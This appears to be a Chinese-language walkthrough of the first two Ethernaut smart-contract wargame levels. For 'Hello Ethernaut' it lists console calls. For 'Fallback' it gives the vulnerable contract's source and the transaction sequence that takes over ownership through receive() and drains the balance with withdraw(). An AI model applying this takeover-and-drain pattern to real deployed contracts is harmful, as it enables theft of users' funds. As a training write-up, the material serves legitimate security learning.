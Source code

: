 # Hello Ethernaut
根据提示一步步来就好：
```js
await contract.info()
await contract.info1()
await contract.info2()
await contract.infonum()
await contract.info42()
await contract.theMethodname()
await contract.method7123949()
await contract.password()
await contract.authenticate("ethernaut0")
```

# Fallback
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```
目标是获取 owner 并且把 balance 变为 0。合约在部署时，部署者会成为 owner，并且会有 1000 ether 的初始贡献值。
- contribute() 函数允许用户贡献 小于 0.001 ether 的金额，且如果某个地址的贡献值超过当前 owner 的贡献值，该地址将成为新的 owner。
- receive() 函数允许合约接收以太币，并且如果满足条件（即 msg.value > 0 且 contributions[msg.sender] > 0），将当前调用者设为 owner。
要成为 owner，有两种方法：
- 使用 contribute() 函数，将 contributions[msg.sender] 增加到超过当前 owner 的贡献值。这个显然不太现实。
- 使用 receive() 函数，只要有任何贡献，并发送非零金额的以太币即可成为 owner。

直接发送一笔 ether（最小 msg.value），触发 receive() 函数，从而将 msg.sender 设为 owner。
```solidity
await contract.contribute({value: toWei("0.000001")})
await contract.sendTransaction({value: toWei("0.000001")})
await contract.owner() // 此时已经修改成功
await contract.withdraw()
```